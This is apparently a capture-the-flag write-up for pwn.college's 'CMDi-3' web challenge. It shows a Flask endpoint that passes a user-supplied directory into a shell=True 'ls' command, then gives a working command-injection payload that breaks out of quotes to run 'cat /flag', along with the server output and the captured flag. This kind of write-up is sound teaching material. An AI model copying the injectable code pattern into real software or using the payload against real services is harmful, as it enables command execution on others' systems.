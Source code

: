 # 🧠 Challenge Name: CMDi-3

## 🗂 Category: Web Exploitation  
**Platform**: pwn.college  
**Difficulty**: Intermediate  
**Vulnerability**: Command Injection  

---

## 📝 Description

This challenge features a vulnerable Flask-based web server that lists directories using a user-supplied path. The input is passed into a shell command without proper sanitization. Your objective is to exploit this to retrieve the flag file.

---

## 🔍 Source Code Analysis

```python
@app.route("/activity", methods=["GET"])
def challenge():
    arg = flask.request.args.get("dir", "/challenge")
    command = f"ls -l '{arg}'"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/activity"><input type=text name=dir><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```

---

## Key Vulnerability:
- The user input (dir) is directly interpolated inside a shell command.
- Though it's wrapped in single quotes, it can still be broken out of using ' and shell metacharacters like ;.

---

## Exploit Strategy

### Payload:
```bash
printf "GET /activity?dir=/'+;+cat+/flag;' HTTP/1.0\r\nHost:challenge.localhost\r\n\r\n" | nc challenge.localhost 80
```
### Server Response:
```bash
<b>Output of ls -l '/' ; cat /flag;':</b><br>
<pre>total 64
[...directory listing...]
pwn.college{U7-y1phaeMq-VVkgC8K7IpcOGa0.QX2YTN2wSM0IzMyEzW}
/bin/sh: 1: : Permission denied
</pre>
```
The injected cat /flag command executed successfully and returned the flag!

---

## Flag

```bash
pwn.college{U7-y1phaeMq-VVkgC8K7IpcOGa0.QX2YTN2wSM0IzMyEzW}
```
